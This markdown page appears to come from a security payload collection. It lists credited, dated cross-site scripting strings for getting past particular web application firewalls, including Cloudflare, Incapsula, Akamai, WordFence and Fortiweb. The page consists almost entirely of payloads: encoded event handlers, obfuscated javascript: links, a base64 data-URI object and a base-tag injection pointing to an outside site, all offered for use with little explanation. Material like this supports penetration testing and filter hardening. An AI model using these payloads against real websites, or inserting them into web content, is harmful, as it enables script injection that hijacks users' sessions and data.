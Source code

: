 # Common WAF Bypass

## Cloudflare

* 25st January 2021 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)
    ```js
    <svg/onrandom=random onload=confirm(1)>
    <video onnull=null onmouseover=confirm(1)>
    ```

* 21st April 2020 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)
    ```js
    <svg/OnLoad="`${prompt``}`">
    ```

* 22nd August 2019 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)
    ```js
    <svg/onload=%26nbsp;alert`bohdan`+
    ```

* 5th June 2019 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)
    ```js
    1'"><img/src/onerror=.1|alert``>
    ```

* 3rd June 2019 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)
    ```js
    <svg onload=prompt%26%230000000040document.domain)>
    <svg onload=prompt%26%23x000000028;document.domain)>
    xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
    ```

* 22nd March 2019 - @RakeshMane10
    ```js
    <svg/onload=&#97&#108&#101&#114&#00116&#40&#41&#x2f&#x2f
    ```


* 27th February 2018
    ```html
    <a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
    ```

## Chrome Auditor

NOTE: Chrome Auditor is deprecated and removed on latest version of Chrome and Chromium Browser.

* 9th August 2018
    ```javascript
    </script><svg><script>alert(1)-%26apos%3B
    ```


## Incapsula WAF

* 11th May 2019 - [@daveysec](https://twitter.com/daveysec/status/1126999990658670593)
    ```js
    <svg onload\r\n=$.globalEval("al"+"ert()");>
    ```

* 8th March 2018 - [@Alra3ees](https://twitter.com/Alra3ees/status/971847839931338752)
    ```javascript
    anythinglr00</script><script>alert(document.domain)</script>uxldz
    anythinglr00%3c%2fscript%3e%3cscript%3ealert(document.domain)%3c%2fscript%3euxldz
    ```

* 11th September 2018 - [@c0d3G33k](https://twitter.com/c0d3G33k)
    ```javascript
    <object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
    ```


## Akamai WAF

* 18th June 2018 - [@zseano](https://twitter.com/zseano)
    ```javascript
    ?"></script><base%20c%3D=href%3Dhttps:\mysite>
    ```

* 28th October 2018 - [@s0md3v](https://twitter.com/s0md3v/status/1056447131362324480)
    ```svg
    <dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
    ```


## WordFence WAF 

* 12th September 2018 - [@brutelogic](https://twitter.com/brutelogic)
    ```html
    <a href=javas&#99;ript:alert(1)>
    ```

## Fortiweb WAF

* 9th July 2019 - [@rezaduty](https://twitter.com/rezaduty)
    ```javascript
    \u003e\u003c\u0068\u0031 onclick=alert('1')\u003e
    ```


## References

* [TODO](TODO)
